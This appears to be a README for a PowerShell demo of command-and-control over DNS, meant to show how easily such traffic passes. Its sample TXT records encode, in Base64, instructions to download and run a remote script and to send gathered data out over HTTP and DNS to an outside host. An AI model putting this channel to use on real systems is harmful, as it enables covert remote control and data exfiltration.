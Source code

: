 # DNS C2 Demo

This set of scripts will help you to demostrate how easy it is to run C2-traffic thru DNS

The script ***demo-create-txt-records.ps1*** creates Base64 encoded records that can be used as TXT-entries

Something like this:

```
;QUESTION
c2demo.ronnkvist.nu. IN TXT
;ANSWER
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzsyO1BTO2RlbW8tcmVtb3RlLXNjcmlwdC5wczE="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzszO1NldDtjMmRlbW9zZXJ2ZXIucm9ubmt2aXN0Lm51"
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzs0O2h0dHA7ZGVtby1wdXNoLW91dC50eHQ="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzswO1dyaXRlO1RpbWUgdG8gZG8gc29tZSBDMi1zdHVmZiA7KQ=="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzsxO0dldDtodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vcmlyb2ZhbC9ETlMtQzItRGVtby9tYWluL2RlbW8tcmVtb3RlLXNjcmlwdC5wczE="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzs1O0ROUztkZW1vLXB1c2gtb3V0LnR4dA=="
```

Then you have the script ***demo-c2-client.ps1*** that you can run on a Windows client with Powershell and access to a DNS.

The script will use TXT-records to find and download another script, execute it and show how a simple DNS-query would send out the information gathered.

### Example output from Demo C2 Client
![Example Output](./demo-c2-client-output.png?raw=true)


### Showing C2 traffic using DNS-queries

[DNSChef](https://github.com/iphelix/dnschef) can be used for a lot of fun DNS-stuff but in this example just to showcase the DNS-queries going out.

You can change the DNS-settings on your client or just use the parameter ***$demoC2DnsServer*** and point it to your DNSChef

```
.\demo-c2-client.ps1 -demoC2DnsServer  "192.168.100.156"
```

![Example Output](./demo-c2-client-dnschef.png?raw=true)


### Showing outgoing HTTP-post

A [Small Python http server](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7) can be used to see the HTTP-traffic

![Example Output](./demo-c2-client-webserver.png?raw=true)
